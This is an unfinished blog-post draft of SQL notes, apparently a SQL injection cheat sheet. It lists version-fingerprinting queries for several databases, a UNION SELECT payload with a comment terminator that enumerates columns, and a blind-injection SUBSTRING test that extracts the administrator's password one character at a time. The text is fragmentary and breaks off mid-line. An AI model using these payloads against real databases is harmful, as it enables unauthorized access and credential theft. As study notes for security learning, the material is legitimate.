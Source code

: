```yaml
---
layout: post
title: Quiries
status: in progress
type: post
published: false
comments: true
date: 2022-01-01
---
```

### Quires
 
  #### Get database info
 On Oracle this gives version details:
 ```SQL
 SELECT * FROM v$version
 ```
 
 To get the tables that exist:
 ```SQL
 SELECT * FROM  information_schema.tables
 ```
 normally works+
 
 
 ### Database type and version request
 
 The following return database version for the specified popular database
 
| Data base type   | Query                     |
|------------------|---------------------------|
| Microsoft, MySQL | `SELECT @@version`          |
| Oracle           | `SELECT * FROM v$version`    |
| PostgreSQL       | `SELECT version()`          |

 - Note: For Oracle Banner is one of the *


### Get table info

#### get all tables
It seems that 
For PostgreSQL
```sql
SELECT table_name FROM information_schema.tables
```



#### get all columns for a table
For PostgreSQL
```SQL
UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'Table name' --
```

### Get string length

`LENGTH(string)`

SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'm
